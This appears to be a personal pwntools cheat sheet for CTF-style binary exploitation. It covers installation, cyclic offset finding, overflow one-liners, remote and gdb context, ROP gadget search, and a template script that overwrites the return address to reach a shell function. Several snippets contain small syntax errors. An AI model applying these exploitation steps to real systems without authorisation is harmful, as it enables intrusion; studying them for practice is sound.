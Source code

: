# Pwntools
## Installation

There are main ways but I found this method work best for me, check yourself.
```bash
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
export PYTHONPATH=/home/$1/.local/bin
```


Enumeration
```bash
r < <(cyclic $INT) # cyclic input of $INT amount
cyclic -l EIP_Address # find out the amount of bytes of input need to expploit the binary
disassemble shell # find out where the shell function is in memory to set it to IP
# EITHER
# IF MANUAL WAY REMEMBER CORRECT ADDRESS LENGTH AND ENDIANNESS
# L->R = littleEndian; R->L = bigEndian
python -c 'print "A"*$INT + "$ADDR"' | /vuln/bin
python -c 'import struct;print "A"*44 + struct.pack("< ", $ADDR)' | /vuln/bin
```

[Context](https://docs.pwntools.com/en/stable/context.html) is powerful, global variable; use with remote for remote host and gb.debug to pipe to gdb!
```python
context(terminal=['tmux', 'new-window'])
p = gdb.debug('./vulnerableBinary', 'b main')
p = remote('10.10.10.10', 1337)
context(os='linux', arch='amd64')
```

Find functions for rop chains
```bash
# inside gdb with gef
gef> ropper --search r$num # for legacy-gef or requires gef-extras
# for cli
ropper -f $binary | grep $register_of_the_function # from commandline
# is the equivant
objdump -D $binary  | grep -i $ function_name
```

Packing
```python
p64() # pack 64 bits
```

Sending, receiving input and interactive shell
```python
p.sendline('\x0A'.encode()) # send an enter key
p.sendline(varOne + varTwo + varThree + ) # send variables linearly
p.recvuntil('until some string if it is a prompt')
p.interactive() # works with remote pops shell if part of payload
```


Scripting the buffer overflow
```python
from pwn import *
proc = process('/vuln/bin')
elf = ELF('/vuln/bin')
shell_func = elf.symbols.shell # CHANGE WHATEVER FORMAT REQUIRED
payload = fit({$INT: shell_func })
proc.sendline(payload)
proc.interactive()
```

